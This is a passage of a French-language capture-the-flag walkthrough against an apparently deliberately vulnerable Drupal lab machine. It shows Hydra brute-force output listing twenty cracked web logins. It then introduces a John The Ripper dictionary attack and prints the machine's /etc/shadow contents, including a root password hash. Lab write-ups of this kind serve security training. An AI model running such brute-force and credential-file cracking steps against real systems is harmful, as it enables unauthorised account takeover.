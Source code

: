 ```console
[DATA] max 8 tasks per 1 server, overall 8 tasks, 420 login tries (l:21/p:20), ~53 tries per task
[DATA] attacking http-post-form://192.168.56.102:80//node?destination=node:name=
^USER^&pass=^PASS^&op=Log+in&form_build_id=form-e07a3b33babb2f3209fd8516fc0415f2&form_id=user_login_block:S=Location
[80][http-post-form] host: 192.168.56.102   login: admin      password: football123
[80][http-post-form] host: 192.168.56.102   login: Barbara    password: passw0rd
[80][http-post-form] host: 192.168.56.102   login: Jim        password: letmein!
[80][http-post-form] host: 192.168.56.102   login: Steve      password: drupal
[80][http-post-form] host: 192.168.56.102   login: Sherry     password: 1website
[80][http-post-form] host: 192.168.56.102   login: Gene       password: superSun123
[80][http-post-form] host: 192.168.56.102   login: Harvey     password: MonsterDrink
[80][http-post-form] host: 192.168.56.102   login: John       password: 4summer13
[80][http-post-form] host: 192.168.56.102   login: Johnathan  password: 1loveU
[80][http-post-form] host: 192.168.56.102   login: Susan      password: BobMarley
[80][http-post-form] host: 192.168.56.102   login: Dan        password: BaseballSeason
[80][http-post-form] host: 192.168.56.102   login: George     password: 12341234
[80][http-post-form] host: 192.168.56.102   login: Jeff       password: sitepass
[80][http-post-form] host: 192.168.56.102   login: Stacey     password: Seventy70
[80][http-post-form] host: 192.168.56.102   login: Juan       password: swanson
[80][http-post-form] host: 192.168.56.102   login: Michael    password: cherry
[80][http-post-form] host: 192.168.56.102   login: Jerome     password: buddahbrother
[80][http-post-form] host: 192.168.56.102   login: Tom        password: drupalpassword
[80][http-post-form] host: 192.168.56.102   login: Xavier     password: thundercats
[80][http-post-form] host: 192.168.56.102   login: Sally      password: fantasy
1 of 1 target successfully completed, 20 valid passwords found
```

## Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Pour conclure ce _walkthrough_, intéressons-nous au fichier ```/etc/shadow```. Celui-ci contient [les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes.
L'outil __John The Ripper__ est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@localhost ~]# cat /etc/shadow
root:$1$.GWA7rU/$lVPNjveio2K8Hpsuk.6N4/:15861:0:99999:7:::
bin:*:15854:0:99999:7:::
daemon:*:15854:0:99999:7:::
adm:*:15854:0:99999:7:::
lp:*:15854:0:99999:7:::
sync:*:15854:0:99999:7:::
shutdown:*:15854:0:99999:7:::
halt:*:15854:0:99999:7:::
mail:*:15854:0:99999:7:::
news:*:15854:0:99999:7:::
uucp:*:15854:0:99999:7:::
operator:*:15854:0:99999:7:::
games:*:15854:0:99999:7:::
gopher:*:15854:0:99999:7:::
ftp:*:15854:0:99999:7:::
nobody:*:15854:0:99999:7:::
apache:!!:15854:0:99999:7:::
rpc:!!:15854:0:99999:7:::
rpcuser:!!:15854:0:99999:7:::
nfsnobody:!!:15854:0:99999:7:::
mailnull:!!:15854:0:99999:7:::
smmsp:!!:15854:0:99999:7:::
distcache:!!:15854:0:99999:7:::
nscd:!!:15854:0:99999:7:::
```